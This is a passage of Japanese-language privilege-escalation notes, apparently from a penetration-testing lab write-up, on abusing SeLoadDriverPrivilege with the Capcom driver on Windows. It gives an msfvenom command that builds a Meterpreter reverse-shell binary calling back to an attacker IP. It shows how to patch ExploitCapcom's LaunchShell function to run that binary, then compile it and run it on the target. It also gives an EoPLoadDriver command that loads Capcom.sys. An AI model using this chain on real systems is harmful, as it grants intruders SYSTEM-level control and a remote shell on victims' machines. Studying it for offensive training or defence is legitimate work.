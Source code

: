 ```
EnableSeLoadDriverPrivilege.exe
```

## ExploitCapcom を使用して権限を昇格

msfvenomでリバースシェルバイナリを作成

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.31 LPORT=4444 -f exe -o evil.exe
```

ExploitCapcom.cppの`LaunchShell`関数の `C:\\Windows\\system32\\cmd.exe` の部分をmsfvenomで作成したリバースシェルバイナリのパスに置き換える

```c++
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

Visual Studio 2022でコンパイルしてターゲットマシンにダウンロード

生成した msfvenom ペイロードに基づいてリスナーを起動し、ターゲットマシンで `ExploitCapcom.exe` を実行することでリバース シェル接続を受信できる

## EopLoadDriver による自動化

[EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/tree/master) などのツールを使用すると、特権の有効化、レジストリ キーの作成、NTLoadDriver の実行によるドライバのロードのプロセスを自動化できる

```
EoPLoadDriver.exe System\CurrentControlSet\Capcom Capcom.sys
```

# Server Operator

`Server Operator` のメンバーはドメイン管理者権限を割り当てることなく Windows サーバーを管理できる。これは、ドメイン コントローラーを含むサーバーにローカルでログインできる、非常に高い特権を持つグループ

`SeBackupPrivilege` および `SeRestorePrivilege` 権限と、ローカル サービスを制御する機能が付与される。

## Server Operatorのメンバーを列挙
